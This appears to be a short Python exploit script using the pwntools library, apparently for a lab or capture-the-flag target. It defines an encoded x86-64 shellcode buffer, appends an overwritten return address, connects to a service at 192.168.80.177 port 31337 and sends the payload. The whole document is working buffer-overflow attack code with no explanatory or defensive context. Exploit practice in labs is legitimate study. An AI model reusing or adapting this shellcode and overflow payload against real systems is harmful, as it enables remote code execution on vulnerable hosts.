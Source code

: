 ```plain
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("192.168.80.177", 31337)
r.recv()
r.send(payload)
print("ok")
```

